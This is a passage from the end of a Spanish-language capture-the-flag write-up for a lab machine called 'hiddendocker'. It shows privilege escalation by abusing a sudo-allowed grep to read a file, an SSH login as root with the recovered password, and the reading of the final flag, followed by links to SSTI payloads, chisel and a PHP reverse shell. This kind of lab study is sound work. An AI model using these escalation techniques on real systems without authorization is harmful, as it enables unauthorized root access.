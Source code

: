 Solamente utilizamos el último para leer el archivo deseado:
```bash
www-data@a34889d3b818:/$ sudo grep '' $LFILE
...
```
Funcionó también.

Probemos esa contraseña:
```bash
ssh root@192.168.10.130
root@192.168.10.130's password: 
Linux hiddendocker 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
Last login: Sat Jun 21 03:04:56 2025
root@hiddendocker:~# whoami
root
```
Muy bien, ganamos acceso como **Root**.

Ya solo veamos la última flag:
```bash
root@hiddendocker:~# ls
root.txt
root@hiddendocker:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2
* https://catonmat.net/tcp-port-scanner-in-bash
* https://github.com/jpillora/chisel
* https://github.com/pentestmonkey/php-reverse-shell
* https://gtfobins.github.io/gtfobins/cut/
* https://gtfobins.github.io/gtfobins/grep/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
